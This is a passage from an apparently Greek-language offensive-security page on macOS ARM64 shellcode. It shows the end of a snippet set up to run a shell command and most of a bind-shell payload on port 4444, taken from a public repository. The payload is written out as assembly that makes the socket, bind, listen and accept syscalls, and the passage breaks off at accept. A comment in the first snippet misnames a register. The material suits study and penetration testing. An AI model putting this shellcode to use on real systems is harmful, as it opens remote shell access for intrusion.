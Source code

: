```armasm
mov x16, #1            ; Load the syscall number for exit (1) into x8
mov x0, #0             ; Set exit status code to 0
svc 0                  ; Make the syscall

_loop: b _loop

sh_path: .asciz "/bin/sh"
.align 2
sh_c_option: .asciz "-c"
.align 2
touch_command: .asciz "touch /tmp/lalala"
```
#### Bind shell

Bind shell από [https://raw.githubusercontent.com/daem0nc0re/macOS\_ARM64\_Shellcode/master/bindshell.s](https://raw.githubusercontent.com/daem0nc0re/macOS\_ARM64\_Shellcode/master/bindshell.s) σε **θύρα 4444**
```armasm
.section __TEXT,__text
.global _main
.align 2
_main:
call_socket:
// s = socket(AF_INET = 2, SOCK_STREAM = 1, 0)
mov  x16, #97
lsr  x1, x16, #6
lsl  x0, x1, #1
mov  x2, xzr
svc  #0x1337

// save s
mvn  x3, x0

call_bind:
/*
* bind(s, &sockaddr, 0x10)
*
* struct sockaddr_in {
*     __uint8_t       sin_len;     // sizeof(struct sockaddr_in) = 0x10
*     sa_family_t     sin_family;  // AF_INET = 2
*     in_port_t       sin_port;    // 4444 = 0x115C
*     struct  in_addr sin_addr;    // 0.0.0.0 (4 bytes)
*     char            sin_zero[8]; // Don't care
* };
*/
mov  x1, #0x0210
movk x1, #0x5C11, lsl #16
str  x1, [sp, #-8]
mov  x2, #8
sub  x1, sp, x2
mov  x2, #16
mov  x16, #104
svc  #0x1337

call_listen:
// listen(s, 2)
mvn  x0, x3
lsr  x1, x2, #3
mov  x16, #106
svc  #0x1337

call_accept:
// c = accept(s, 0, 0)
```